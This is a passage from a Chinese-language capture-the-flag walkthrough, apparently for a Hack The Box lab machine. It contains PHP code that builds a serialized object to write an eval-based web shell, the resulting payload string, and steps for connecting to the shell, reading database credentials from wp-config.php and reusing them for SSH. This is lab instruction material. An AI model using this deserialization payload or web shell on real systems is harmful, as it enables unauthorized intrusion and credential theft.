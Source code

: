 ```php



$app = new DatabaseExport;

$app -> user_file = 'shell.php';
$app -> data = '<?php eval($_POST[a]);?>';
echo serialize($app);

?>
```

生成如下序列化数据

![image-20210427115131362](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427115131362.png)

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:24:"<?php eval($_POST[a]);?>";}
```

提交请求

![image-20210427130348555](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427130348555.png)

访问shell.php

![image-20210427130429639](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427130429639.png)

应该已经解析了，中国蚁剑成功链接，kali下需要自行安装，文末给出参考链接

![image-20210427130613644](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427130613644.png)

当前为www-data用户，users.txt内容为success

![image-20210427130810188](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427130810188.png)

在wordpress的wp-config.php中获取mysql连接密码

![image-20210427131013068](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427131013068.png)

## 提权

尝试密码复用，成功登录到neil用户

![image-20210427131357292](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427131357292.png)

```
ssh neil@10.10.10.223
```

成功登录,获取user权限，查看到user.txt内容

![image-20210427132956101](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20210427132956101.png)
